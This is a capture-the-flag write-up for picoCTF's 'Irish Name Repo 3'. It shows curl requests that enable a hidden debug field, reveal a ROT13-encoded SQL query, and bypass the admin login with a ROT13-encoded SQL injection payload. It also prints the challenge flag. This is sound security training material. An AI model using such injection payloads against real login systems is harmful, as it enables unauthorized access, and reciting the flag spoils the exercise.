


# Irish Name Repo 3

This is the write-up for the challenge "Irish Name Repo 3" challenge in PicoCTF

# The challenge

## Description
There is a secure website running at https://jupiter.challenges.picoctf.org/problem/29132/ (link) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!



## Hints
1. Seems like the password is encrypted.

## Initial look
When you open the challenge link, you land on a homepage with a navigation bar on the left.
To reach the login page, click the "Admin Login" button in the navbar. This will take you to a page with a password input form.

# How to solve it

Once you're on the login page, you see a simple form asking for a password. There's also a hidden input field called `debug`.
To better understand how the password is used, I set the `debug` value to `1`. You can do this using browser Developer Tools or with curl:

```bash
curl "https://jupiter.challenges.picoctf.org/problem/29132/login.php" --data "password=test&debug=1"
```



This gave the following output:

```sql
password: test  
SQL query: SELECT * FROM admin where password = 'grfg'
```

We can see that the password we entered (test) was changed to grfg. This shows the password is encrypted using ROT13 (a simple substitution cipher where each letter is replaced by the one 13 letters after it).

Next, I tried SQL injection by entering this:

```bash
curl "https://jupiter.challenges.picoctf.org/problem/29132/login.php" --data "password=' or 1=1--&debug=1"
```

But the debug output showed:

```vbnet
password: ' or 1=1--  
SQL query: SELECT * FROM admin where password = '' be 1=1--'
```

Again, the input was ROT13’d — or became be. But because of the quotes, the injection didn’t work.
So to make it work, I had to encrypt my injection before submitting it.
Original injection:

```vbnet
' or 1=1--
```

ROT13 version:

```vbnet
' be 1=1--
```

Then I submitted this:

```bash
curl "https://jupiter.challenges.picoctf.org/problem/29132/login.php" --data "password=' be 1=1--"
```

And it worked! I was logged in as admin, and the flag was displayed.
Voila!!! 😎

The flag is `picoCTF{3v3n_m0r3_SQL_06a9db19}`

Cheers 😄